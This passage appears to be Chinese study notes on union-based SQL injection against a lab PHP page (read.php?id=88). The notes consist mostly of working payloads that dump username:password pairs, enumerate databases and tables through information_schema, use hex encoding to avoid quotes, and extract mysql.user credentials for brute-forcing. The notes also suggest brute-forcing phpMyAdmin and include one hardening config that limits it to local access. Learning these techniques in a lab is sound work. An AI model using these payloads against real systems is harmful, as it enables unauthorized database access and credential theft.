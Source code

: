 ```sql
/security/read.php?id=88 union select 1,2, (select concat_ws(':',username,password) from user) ,4,5,6
```

**2、使用`group_concat`和`concat_ws`连用**

```sql
/security/read.php?id=88 union select 1,2, (select group_concat(table_name) from information_schema.tables where table_schema='learn') ,4,5,6
```

> 在名为`information_schema`的数据库中的`tables`表中查询`table_schema(数据库名称)`为`leran`的数据，显示`table_name(表名)`

```sql
/security/read.php?id=88 union select 1,2, (select group_concat(concat_ws(':',username,password)) from user ) ,4,5,6
```

**3、使用十六进制代替单引号**

```sql
select hex('YikJiang')		--在MySQL中将字符串转换为16进制
select unhex('59696B4A69616E67')		--将十六进制转换回字符串		
```

**4、浏览所有数据库**

```sql
--方法一：
http://192.168.72.148/security/read.php?id=88 union select 1,2, (select group_concat(distinct(table_schema)) from information_schema.tables ) ,4,5,6	--distinct去重

--方法二：
/security/read.php?id=88 union select 1,2, (select group_concat(schema_name) from information_schema.schemata ) ,4,5,6
```

![image-20220720155420581](https://yang-typora.oss-cn-beijing.aliyuncs.com/202207201554668.png)

​		尝试访问：`/phpmyadmin`，如果认证方式为：`config`，则直接进入后台，如果使用认证方式为：`http`，则可以爆破，所以最好的方式是不开启PHPMyAdmin，或者在有需要的时候开启远程访问。

**修改`vim /opt/lampp/etc/extra/httpd-xampp.conf`**

```shell
<Directory "/opt/lampp/phpmyadmin">
    AllowOverride AuthConfig Limit
   	Require local		#允许本地登录
    #Require all granted	允许所有IP访问
    ErrorDocument 403 /error/XAMPP_FORBIDDEN.html.var
</Directory>
```

**5、获取`mysql.user`的用户名称密码，从而可以进行爆破**

```sql
security/read.php?id=88 union select 1,2, (select concat_ws(':',user,password) from mysql.user limit 0,1) ,4,5,6
```
